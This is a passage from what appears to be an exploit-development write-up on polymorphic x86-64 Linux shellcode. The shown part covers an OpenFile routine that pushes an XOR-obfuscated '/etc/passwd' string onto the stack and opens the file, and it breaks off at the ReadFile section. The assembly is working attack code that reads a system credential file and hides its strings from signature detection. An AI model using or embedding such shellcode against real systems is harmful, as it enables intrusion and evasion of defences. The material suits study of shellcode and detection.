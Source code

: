 ## Polymorphism

For simplicity I chose to divide the shellcode into the following assembly routines:

- `OpenFile`
- `ReadFile`
- `WriteOutput`
- `Exit`

### OpenFile

The first routine simply opens the file `/etc/passwd`.

```nasm
global _start

section .text

_start:

OpenFile:

    xor eax, eax
    push rax

    push 0x64777373

    mov rbx, 0xcdbdc152350e17cb
    mov rcx, 0xaccdee31416b38e4
    xor rbx, rcx

    push rbx

    mov rdi, rsp
  
    add al, 2

    xor esi, esi
    syscall
```

<figcaption class="figure-caption">Opening `/etc/passwd`</figcaption>

Instead of the `JMP-CALL-POP` technique, I decided to push the string to the stack and retrieve its address through the `RSP` register.

This allowed me to decrease the number of bytes used by the shellcode, making it smaller.

Moreover, thanks to the decrement in size, I could use some of the spare bytes to obfuscate part of the strings, e.g. `/etc/passwd`.

In this case, the only clear-text part is the substring `sswd`. If you can afford some other bytes, you could probably obfuscate that one too.

### ReadFile
